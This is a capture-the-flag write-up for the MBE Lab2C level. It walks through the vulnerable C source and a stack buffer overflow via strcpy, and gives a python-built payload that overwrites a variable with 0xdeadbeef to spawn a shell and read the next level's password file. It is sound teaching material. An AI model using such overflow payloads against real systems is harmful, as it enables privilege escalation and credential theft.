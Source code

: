 ```yaml
---
title: "Lab2C Write-up (Easy)"
permalink: /writeups/mbe/lab2c/
excerpt: "Write-up for Lab2C."
---
```


---
MBE's **Lab02** are mainly focused on Memory Corruption. The first level (*Lab2C*) is quite simple and a good introduction to basic stack overflow.

First, log into the Lab02 as **Lab2C** (`lab2C:lab02start`) and go to the challenges folder:

```shell
$ ssh lab2C@<VM_IP>
$ cd /levels/lab02/
```

Let's try to execute the program:

```shell
lab2C@warzone:/levels/lab02$ ./lab2C
usage:
./lab2C string
lab2C@warzone:/levels/lab02$ ./lab2C YOLO!
Not authenticated.
set_me was 0
lab2C@warzone:/levels/lab02$ 
```

The program takes an argument. However, it seems that we need to provide a specific input in order to be authenticated.

**Note:** From now on, we have access to the source code of all the remaining challenges. It means that we will be able to do static analysis on high-level codes in order to figure out where are the vulnerabilities.
{: .notice--info}

## Source Code Analysis

Given we now have access to the source code, let's do a quick check of what it does:

```c
void shell()
{
   printf("You did it.\n");
   system("/bin/sh");
}

int main(int argc, char** argv)
{
   if(argc != 2)
   {
      printf("usage:\n%s string\n", argv[0]);
      return EXIT_FAILURE;
   }

   int set_me = 0;
   char buf[15];
   strcpy(buf, argv[1]);

   if(set_me == 0xdeadbeef)
   {
      shell();
   }
   else
   {
      printf("Not authenticated.\nset_me was %d\n", set_me);
   }

   return EXIT_SUCCESS;
}
```

This one is simple, if *set_me* variable is equal to **0xdeadbeef**, the *shell()* function is called and you get elevated privileges. The question now is how to put this value into *set_me*?

Here, the *strcpy()* function will copy our argument (**argv[1]**) in the **buf** char array. However, **buf** is only 15 bytes long. As *strcpy()* won't check the size of the source and target buffers, if our input, *argv[1]*, is too big, *buf* will **overflow** into *set_me*. 

So, with a large enough input, we can overwrite *set_me* with the value of our choice.

## Dynamic Analysis

Enough with the theory, let's check our assumptions. Here, we don't really need to use `gdb` as the exploit is fairly simple.

First, a quick proof of concept with an argument composed of **15** *A's* and **4** *B's*.

```shell
lab2C@warzone:/levels/lab02$ ./lab2C `python -c 'print 15 * "A" + "BBBB"'`
Not authenticated.
set_me was 1111638594
```

Interesting, now the *set_me* value is equal to **1111638594**, which is **0x42424242** in hexadecimal, or **BBBB** is ASCII. Now, we just need to change the second part of our proof of concept with the value **0xdeadbeef** in order to solve this challenge.

## Solution

Let's modify our payload and solve this challenge.

```shell
lab2C@warzone:/levels/lab02$ ./lab2C `python -c 'print 15 * "A" + "\xef\xbe\xad\xde"'`
You did it.
$ whoami
lab2B
$ cat /home/lab2B/.pass
1m_all_ab0ut_d4t_b33f
```

Easy, right ? Let's go to the next [challenge](/writeups/mbe/lab2b/)!
